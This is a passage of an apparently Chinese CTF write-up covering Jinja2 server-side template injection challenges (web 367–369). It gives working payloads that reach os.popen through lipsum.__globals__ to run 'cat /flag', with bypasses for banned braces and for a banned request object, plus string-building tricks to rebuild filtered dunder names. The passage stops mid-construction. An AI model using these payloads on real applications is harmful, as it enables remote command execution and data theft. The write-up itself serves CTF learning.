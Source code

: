 ### [web 367](#toc_web-367)

过滤多了个 os，但未过滤 request，那么这里可以继续用 request 来进行绕过  
本来构造的 payload

```plain
{{(lipsum|attr(request.cookies.a)).request.cookies.c.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag&c=os
```

但不知为何未正常回显，这里的话采用之前的 values 方式，但不用 POST，通过 GET 进行传值时可以正常回显

```plain
a=__globals__&b=cat /flag&c=os&name={{(lipsum|attr(request.values.a)).get(request.values.c).popen(request.values.b).read()}}
```

[![在这里插入图片描述](assets/1698900310-2edb90864b099413ef1ae60c75af38ec.png)](https://storage.tttang.com/media/attachment/2022/08/14/6a8dec7c-4854-47b2-995d-77b1a1d89dbc.png)

### [web 368](#toc_web-368)

`{{}}`被 ban，这里需要用`{%%}`来进行绕过，修改一下上关 payload 即可

```plain
a=__globals__&b=cat /flag&c=os&name={%print(lipsum|attr(request.values.a)).get(request.values.c).popen(request.values.b).read()%}
```

### [web 369](#toc_web-369)

request 被 ban，这里我们可以自己构造拼接语句来进行攻击  
原 payload 是

```plain
name={%x.open('/flag').read()%}
```

这里由于单引号无法使用，所以我们需要自己构造/flag，构造字符串需要用到 chr，也就需要调用 chr 函数，构造 chr 函数

```plain
构造下划线
{% set a=(()|select|string|list).pop(24)%}
构造 ini="___init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
构造__globals__
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
构造 geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
构造 built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
调用 chr() 函数
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
构造/flag
```
